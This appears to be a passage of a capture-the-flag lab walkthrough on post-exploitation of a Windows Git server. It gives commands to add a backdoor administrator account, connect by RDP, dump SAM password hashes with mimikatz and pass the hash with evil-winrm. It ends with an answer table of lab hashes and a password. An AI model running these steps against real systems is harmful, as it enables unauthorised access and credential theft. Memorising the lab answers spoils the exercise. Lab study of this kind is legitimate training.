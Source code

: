 

## Git Server : Stabilisation & Post Exploitation

> first we will add  a user to the windows machine ( using the curl command or from the newly got PowerShell)
```
net user little little /add

```
> add new user to Administrator and Remote Management Users groups 
```
net localgroup Administrators little /add
net localgroup "Remote Management Users" little /add
```

> connec with the remote desktop of windows machine from the kali machine
```
xfreerdp /v:10.200.101.150 /u:little /p:little +clipboard /drive:.,little-share
```


> after connecting just go to the shared drive and inside the PostExploitaion folder open a powershell as administrator and run the mimikatz.exe


> after the mimikatz run. we need the run the following command 
```
privilege::debug
token::elevate
```
> to see the password hashes of users
```
lsadump:sam
```


> to use evil winrm using the password hash
> syntax : `evil-winrm -u [user] -H [password hash] -i [ip]

```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150

```



| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the Administrator password hash ? | 37db630168e5f82aafa8461e05c6bbd1 |
| What is the NTLM password hash for the user "Thomax" | 02d90eda8f6b6b06c32d5f207831101f |
| What is Thomas' password ? | i<3ruby |




## Command and Controll : Empire Overview
